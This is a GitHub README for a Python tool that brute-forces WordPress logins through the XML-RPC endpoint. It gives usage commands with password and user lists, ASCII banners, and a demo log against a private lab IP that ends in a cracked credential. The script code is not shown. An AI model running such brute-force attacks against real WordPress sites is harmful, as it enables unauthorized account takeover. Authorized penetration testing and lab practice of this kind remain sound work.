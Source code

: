 <p align="center"><img src="https://i.imgur.com/K1C74ti.png"></p>

<h4 align="center">An XMLRPC BruteForcer for Wordpress</h4>

<p align="center">
  <a href="https://twitter.com/kavishgour"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://t.me/kavishgr"><b>Telegram</b></a>
  <span> - </span>
  <a href="https://kavishgr.github.io"><b>Blog</b></a>
</p>


## Usage

```bash
xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt

Try adding 'www' if nothing works.
```

## Demo
{ %highlight bash% }
                    __     __     __    __     _____       _____      _____      ____                 
                   (_ \   / _)    \ \  / /    (_   _)     (   __ \   (  __ \    / ___)                
                     \ \_/ /      () \/ ()      | |        ) (__) )   ) )_) )  / /                    
                      \   /       / _  _ \      | |       (    __/   (  ___/  ( (                     
                      / _ \      / / \/ \ \     | |   __   ) \ \  _   ) )     ( (                     
                    _/ / \ \_   /_/      \_\  __| |___) ) ( ( \ \_)) ( (       \ \___                 
                   (__/   \__) (/          \) \________/   )_) \__/  /__\       \____)                
                                                                                                          
 ______    ______     __    __   ________    _____      _________     ____     ______       ____    _____  
(_   _ \  (   __ \    ) )  ( (  (___  ___)  / ___/     (_   _____)   / __ \   (   __ \     / ___)  / ___/  
  ) (_) )  ) (__) )  ( (    ) )     ) )    ( (__         ) (___     / /  \ \   ) (__) )   / /     ( (__    
  \   _/  (    __/    ) )  ( (     ( (      ) __)       (   ___)   ( ()  () ) (    __/   ( (       ) __)   
  /  _ \   ) \ \  _  ( (    ) )     ) )    ( (           ) (       ( ()  () )  ) \ \  _  ( (      ( (      
 _) (_) ) ( ( \ \_))  ) \__/ (     ( (      \ \___      (   )       \ \__/ /  ( ( \ \_))  \ \___   \ \___  
(______/   )_) \__/   \______/     /__\      \____\      \_/         \____/    )_) \__/    \____)   \____\ 
                                                                                                           

                  _____   _____  _  _  _ _______  ______ _______ ______       ______  __   __     
                 |_____] |     | |  |  | |______ |_____/ |______ |     \      |_____]   \_/       
                 |       |_____| |__|__| |______ |    \_ |______ |_____/      |_____]    |        
                                                                                  
                              ______  ______  _____  ______  _______ ______                    
                             |______ |______ |       |_____] |______ |     \                   
                             ______| |______ |_____  |_____] ______| |_____/                   
                                                                                  



    


--=[Brute forcing target: http://192.168.100.34/xmlrpc.php]=--
--=[Starting Brute Force Enumeration...]=--
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--=[Tried: 4000 passwords]=--
--=[Tried: 5000 passwords]=--
--=[User found! Success! elliot/ER28-0652]=--
--=[Brute Force Amplification Attack Successful!]=--
{ %endhighlight% }
